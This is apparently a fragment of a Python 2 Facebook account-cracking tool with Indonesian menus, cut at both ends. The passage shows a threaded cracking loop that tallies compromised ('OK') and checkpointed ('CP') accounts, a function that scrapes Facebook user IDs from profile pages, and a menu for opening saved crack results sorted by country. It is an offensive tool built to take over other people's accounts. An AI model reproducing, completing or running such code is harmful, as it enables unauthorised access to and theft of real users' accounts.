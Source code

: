 													cek.close()
													CP.append(em)
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print '\033[0;97m   • \033[0;97mSelesai ...'
	print"\033[0;97m   • \033[0;97mTotal \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97m: \033[0;97m"+str(len(oks))+"\033[0;97m/\033[0;97m"+str(len(CP))
	print '\033[0;97m   • \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97mfile tersimpan \033[0;97m: \033[0;97mdone/follow.txt'
	print "\033[0;91m╚═══════════════════════════════════════════════════════════════╝"
	raw_input("\033[0;97m   < \033[0;97mKembali\033[0;97m >")
	os.system("python2 crackfb2.py")
	
#### CARI ID ####
def cari_id():
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	ling = ('https://www.facebook.com/')
	url = ling+raw_input("\033[0;97m   • \033[0;97mUsername \033[0;97m:\033[0;97m ")
	idre = re.compile('"entity_id":"([0-9]+)"')
	page = requests.get(url)
	nex = idre.findall(page.content)
	for hasil in nex:
		print '\n'+'\033[0;97m   • \033[0;97mID Anda\033[0;97m :\033[0;97m '+hasil
                print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
		raw_input("\n\033[0;97m   < \033[0;97mKembali \033[0;97m>")
		menu()
		
### HASIL CRACK ###
def hasil_crack():
	os.system('clear')
	print logo
	print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print ('\033[0;97m   1. \033[0;97mLihat Hasil Crack Indonesia')
	print ('\033[0;97m   2. \033[0;97mLihat Hasil Crack Bangladesh')
	print ('\033[0;97m   3. \033[0;97mLihat Hasil Crack Pakistan')
	print ('\033[0;97m   4. \033[0;97mLihat Hasil Crack Usa')
	print ('\033[0;97m   5. \033[0;97mLihat Hasil Crack Like')
	print ('\033[0;97m   6. \033[0;97mLihat Hasil Crack Follow')
	print ('\033[0;97m   0. \033[0;97mKembali')
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
	pilih_hasil()
	
### PILIH HASIL ###
def pilih_hasil():
	keak = raw_input('\033[0;97m   >\033[0;97m ')
	if keak =="":
		print '\033[0;97m   ! Isi Yg Benar'
		pilih_hasil()
	elif keak =="1":
		os.system('xdg-open done/indo.txt')
		hasil_crack()
	elif keak =="2":
		os.system('xdg-open done/bangla.txt')
		hasil_crack()
	elif keak =="3":
		os.system('xdg-open done/bangla.txt')
		hasil_crack()